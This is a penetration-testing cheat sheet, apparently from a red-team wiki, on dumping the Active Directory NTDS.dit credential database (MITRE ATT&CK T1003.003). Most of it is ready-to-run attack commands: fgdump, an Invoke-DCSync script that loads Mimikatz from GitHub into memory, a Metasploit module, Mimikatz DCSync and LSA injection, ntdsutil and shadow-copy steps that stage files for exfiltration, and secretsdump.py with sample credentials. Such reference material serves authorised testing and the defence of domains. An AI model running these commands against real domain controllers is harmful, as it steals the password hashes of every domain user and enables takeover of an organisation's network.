





# NTDS

**ATT\&CK ID:** [**T1003.003**](https://attack.mitre.org/techniques/T1003/003/)****

**Permissions Required:** <mark style="color:red;">**Administrator**</mark>** | **<mark style="color:red;">**SYSTEM**</mark>

**Description**

Adversaries may attempt to access or create a copy of the Active Directory domain database in order to steal credential information, as well as obtain other information about domain members such as devices, users, and access rights. By default, the NTDS file (NTDS.dit) is located in `%SystemRoot%\NTDS\Ntds.dit` of a domain controller.

In addition to looking for NTDS files on active Domain Controllers, adversaries may search for backups that contain the same or similar information.

## Techniques

### fgdump

```
./fgdump.exe

# Remote host with specified user
./fgdump.exe -h <IP> -u <User>
```



After the dump is complete reading \<Host>.pwdump reveals password NTLM hashes.



### Invoke-DCsync

**URL:** [https://github.com/pentestfactory/Invoke-DCSync](https://github.com/pentestfactory/Invoke-DCSync)

Invoke-DCsync pulls Mimikatz,PowerView and ADRecon from Github into memory and then performs DCSync.

```
. .\Invoke-DCsync.ps1
```



 (1).png>)

### Metasploit

```
use auxiliary/admin/smb/psexec_ntdsgrab
```

 (1).png>)

`secretsdump.py` can then be used to pull hashes from the `ntds.dit` database using the SYSTEM hive file (ref: secretsdump.py further down).

### Mimikatz

```powershell
# Dump hashes for a specified users
Invoke-Mimikatz -command '"lsadump::dcsync /domain:security.local /user:moe"'

# Dump hashes for all users
Invoke-Mimikatz -command '"lsadump::dcsync /domain:security.local /all"'

# Dump hashes by injecting into the lsass process on the Domain Controller
Invoke-Mimikatz -command '"lsadump::lsa /inject"'
```


### ntdsutil.exe (Native)

With access to the Domain Controller its possible to run the `ntdsutil.exe` native binary to dump SAM, SYSTEM and ntds.dit ready for exfiltration.

```powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\Exfiltration' q q"
```



Viewing the contents of `c:\Exfiltration` we see the files.

.png>)

Secretsdump we can be used against these files for extraction as shown in the `secretsdump.py` section below.

### Secretsdump.py

```bash
# With valid credentials
secretsdump.py security.local/moe:Password123@10.10.10.100 -just-dc-ntlm
```

 (1) (1).png>)

```bash
# Dump from exfiltrated ntds.dit and SYSTEM files.
sudo secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```

 (1) (1) (1) (1).png>)

```bash
# Dump results from ntdsutil.exe method
secretsdump.py -system SYSTEM -security SECURITY -ntds ntds.dit LOCAL
```

### Volume Shadow Copy

```bash
# Create VSS snapshot of system drive
vssadmin create shadow /for=C:

# create a copy of NTDS.dit and SYSTEM then move to C:\Exfiltration
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit C:\Exfiltration
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\System32\config\SYSTEM C:\Exfiltration
```



The NTDS.dit and SYSTEM files can be exfiltrated off the system and used with a tool such as `secretsdump.py` for hash extraction.
